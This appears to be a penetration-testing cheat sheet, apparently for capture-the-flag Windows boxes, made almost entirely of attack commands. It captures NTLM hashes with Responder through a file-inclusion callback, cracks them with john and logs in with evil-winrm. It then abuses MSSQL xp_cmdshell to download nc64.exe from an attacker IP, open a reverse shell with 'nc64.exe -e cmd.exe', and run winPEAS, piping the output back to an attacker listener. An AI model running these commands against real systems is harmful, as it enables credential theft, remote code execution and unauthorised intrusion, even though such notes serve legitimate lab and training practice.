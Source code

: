 # 🛑 REQUIRED: responder listening
```shell
# set listening services in: /etc/responder/Responder.conf
sudo responder -I <INTERACE>

# https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds#lfi
curl -o- <URL>/index.php?page=//<CALLBACK_IP>/somefile

# Copy everything after \/ below \/ to file
# https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4
# https://stackoverflow.com/questions/32272615/is-it-possible-to-convert-netmtlmv2-hash-to-ntlm-hash
# https://nthashes.com/
# [SMB] NTLMv2-SSP Hash     : <USER>:<HOST>:<HASH>...

# Use john to crack
# https://www.openwall.com/john/doc/
john -w=<WORDLIST> <NTLM_HASH_FILE>

# Use evil-winrm to access machine
# https://github.com/Hackplayers/evil-winrm

evil-winrm -i <HOST> -u <USER> -p <PASSWORD>
Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Name flag.txt
```

# 🖥️ MSSQL

* https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server
* https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

```shell
/usr/share/doc/python3-impacket/examples/mssqlclient.py -windows-auth '<DOMAIN>/<USER>:<PASSWORD>@<IP_ADDRESS>'

select @@version;

enable_xp_cmdshell
xp_cmdshell "powershell.exe -exec bypass -c wget http://10.10.14.190:8000/nc64.exe -outfile ../../Users/<USER>/Desktop/nc64.exe"

nc -lvnp 443
xp_cmdshell "powershell.exe -exec bypass -c ../../Users/<USER>/Desktop/nc64.exe -e cmd.exe <CALLBACK_IP> 443"

cd ~/Downloads/ && python3 -m http.server 8000 &
powershell.exe -exec bypass -c wget http://<CALLBACK_IP>:8000/winPEASx64.exe -outfile ../../Users/<USER>/Desktop/winPEASx64.exe"
powershell.exe -exec bypass ../../Users/<USER>/Desktop/winPEASx64.exe > ../../Users/<USER>/Desktop/winPEASx64.txt

nc -nvlp 444 > winPEASx64.txt

powershell.exe -exec bypass -c ../../Users/<USER>/Desktop/nc64.exe <CALLBACK_IP> 444 < ../../Users/<USER>/Desktop/winPEASx64.txt

git clone https://github.com/SecureAuthCorp/impacket.git
python3 setup.py build
python3 setup.py install
cd examples
```
